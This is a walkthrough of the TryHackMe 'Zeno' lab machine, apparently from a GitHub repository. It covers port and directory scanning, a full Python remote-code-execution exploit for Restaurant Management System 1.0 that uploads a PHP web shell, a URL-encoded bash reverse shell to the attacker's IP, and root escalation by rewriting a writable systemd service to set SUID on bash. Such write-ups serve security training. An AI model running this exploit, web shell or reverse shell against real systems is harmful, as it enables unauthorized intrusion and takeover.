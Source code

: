 # Zeno

# Nmap
```sh
┌──(kali㉿kali)-[~/THM/ZENO/recon/nmap]
└─$ nmap 10.10.251.31 -p- --min-rate 2000 -vv -oA allports -Pn
```

```sh
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack
12340/tcp open  unknown syn-ack
```

```sh
┌──(kali㉿kali)-[~/THM/ZENO/recon/nmap]
└─$ nmap 10.10.251.31 -p22,12340 --min-rate 2000 -vv -oA allscsv -Pn -sC -sV
```
```sh
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 092362a2186283690440623297ff3ccd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDakZyfnq0JzwuM1SD3YZ4zyizbtc9AOvhk2qCaTwJHEKyyqIjBaElNv4LpSdtV7y/C6vwUfPS34IO/mAmNtAFquBDjIuoKdw9TjjPrVBVjzFxD/9tDSe+cu6ELPHMyWOQFAYtg1CV1TQlm3p6WIID2IfYBffpfSz54wRhkTJd/+9wgYdOwfe+VRuzV8EgKq4D2cbUTjYjl0dv2f2Th8WtiRksEeaqI1fvPvk6RwyiLdV5mSD/h8HCTZgYVvrjPShW9XPE/wws82/wmVFtOPfY7WAMhtx5kiPB11H+tZSAV/xpEjXQQ9V3Pi6o4vZdUvYSbNuiN4HI4gAWnp/uqPsoR
|   256 33663536b0680632c18af601bc4338ce (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEMyTtxVAKcLy5u87ws+h8WY+GHWg8IZI4c11KX7bOSt85IgCxox7YzOCZbUA56QOlryozIFyhzcwOeCKWtzEsA=
|   256 1498e3847055e6600cc20977f8b7a61c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOKY0jLSRkYg0+fTDrwGOaGW442T5k1qBt7l8iAkcuCk
12340/tcp open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: We&#39;ve got some trouble | 404 - Resource not found
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
```

# Web enumeration
```sh
┌──(kali㉿kali)-[~/THM/ZENO/recon/web]
└─$ gobuster dir -u http://10.10.251.31:12340 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 40 -x .php,.txt,.html 
...
/rms                  (Status: 301) [Size: 238] [--> http://10.10.251.31:12340/rms/]
...
```
![](site.png)

# RMS exploit
RMS stands for Restaurant Management System
An exploit can be found with:
```sh
searchsploit restaurant management system
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                          |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Restaurant Management System 1.0 - Remote Code Execution                                                                                                | php/webapps/47520.py
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
The exploit needed some adjustedments and did not work immediately. Below the working exploit is found:
```python3
# Exploit Title: Restaurant Management System 1.0  - Remote Code Execution
# Date: 2019-10-16
# Exploit Author: Ibad Shah
# Vendor Homepage: https://www.sourcecodester.com/users/lewa
# Software Link: https://www.sourcecodester.com/php/11815/restaurant-management-system.html
# Version: N/A
# Tested on: Apache 2.4.41

#!/usr/bin/python

import requests
import sys

print ("""
    _  _   _____  __  __  _____   ______            _       _ _
  _| || |_|  __ \|  \/  |/ ____| |  ____|          | |     (_) |
 |_  __  _| |__) | \  / | (___   | |__  __  ___ __ | | ___  _| |_
  _| || |_|  _  /| |\/| |\___ \  |  __| \ \/ / '_ \| |/ _ \| | __|
 |_  __  _| | \ \| |  | |____) | | |____ >  <| |_) | | (_) | | |_
   |_||_| |_|  \_\_|  |_|_____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                             | |
                                             |_|


""")
print ("Credits : All InfoSec (Raja Ji's) Group")
url = sys.argv[1]

if len(sys.argv[1]) < 8:
	print("[+] Usage : python rms-rce.py http://localhost:80/")
	exit()

print ("[+] Restaurant Management System Exploit, Uploading Shell")

target = url+"admin/foods-exec.php"



headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Length": "327",
    "Content-Type": "multipart/form-data; boundary=---------------------------191691572411478",
    "Connection": "close",
	"Referer": "http://localhost:8081/rms/admin/foods.php",
	"Cookie": "PHPSESSID=4dmIn4q1pvs4b79",
	"Upgrade-Insecure-Requests": "1"

}

data = """

-----------------------------191691572411478
Content-Disposition: form-data; name="photo"; filename="reverse-shell.php"
Content-Type: text/html

<?php echo shell_exec($_GET["cmd"]); ?>
-----------------------------191691572411478
Content-Disposition: form-data; name="Submit"

Add
-----------------------------191691572411478--
"""
r = requests.post(target,verify=False, headers=headers,data=data)


print("[+] Shell Uploaded. Please check the URL : "+url+"images/reverse-shell.php")
```
 Run the exploit to execute commands on the target go to the given URL:

 http://10.10.98.202:12340/rms/images/reverse-shell.php?cmd=id

 ![](cmd.png)


 To get a reverse shell we url encode `bash -i >& /dev/tcp/10.11.40.46/4444 0>&1` and execute it in the webshell
 ```sh
http://10.10.98.202:12340/rms/images/reverse-shell.php?cmd=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.11.40.46%2F4444%200%3E%261
```
No we have a shell as apache. 
![](shell1.png)


# Privilege escaltion to edward
During enumeration we found another user 'edward' an with linpeas we found a password. Let's try logging in as that user via ssh.

![](password.png)
```sh
ssh edward@10.10.98.202
```

Yes!! we have as shell as edward and can read the user flag.

Now we run linpeas again and we find out that we can write to a service. 

![](service1.png)


Let's read the file:
```sh
[edward@zeno ~]$ cat /etc/systemd/system/zeno-monitoring.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/root/zeno-monitoring.py

[Install]
WantedBy=multi-user.target
```
Here ExecStart is the main process of the service. Since we have write privileges to the file we can change the value of ExecStart. On the machine nano (my favorite editor) is not available to I copied the contents of the file to my own machine and changed the value of ExecStart
```sh
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/usr/bin/chmod +s /usr/bin/bash

[Install]
WantedBy=multi-user.target


[Install]
WantedBy=multi-user.target

```

Now the service will set the SUID bit on /usr/bin/bash on startup. We will be able to execute the file as the user who owns the file: root in this case. Sounds great to have a bash shell as root...

To change the file we convert the file to base64 and redirect the output to the service file:
```sh
[edward@zeno ~]$ echo "RGVzY3JpcHRpb249WmVubyBtb25pdG9yaW5nCgpbU2VydmljZV0KVHlwZT1zaW1wbGUKVXNlcj1y
> b290CkV4ZWNTdGFydD0vdXNyL2Jpbi9jaG1vZCArcyAvdXNyL2Jpbi9iYXNoCgpbSW5zdGFsbF0K
> V2FudGVkQnk9bXVsdGktdXNlci50YXJnZXQK" | base64 -d > /etc/systemd/system/zeno-monitoring.service
[edward@zeno ~]$ ls -al /etc/systemd/system/zeno-monitoring.service
```

In order to start the service we need to reboot the machine. During enumeration it was found that `/usr/bin/reboot` can be executed as sudo without password.

![](ssudoreboot.png)
```sh
sudo reboot
```

After connecting again via ssh as the user edward we can simply type `bash -p` to get a root shell:

![](root.png)






 



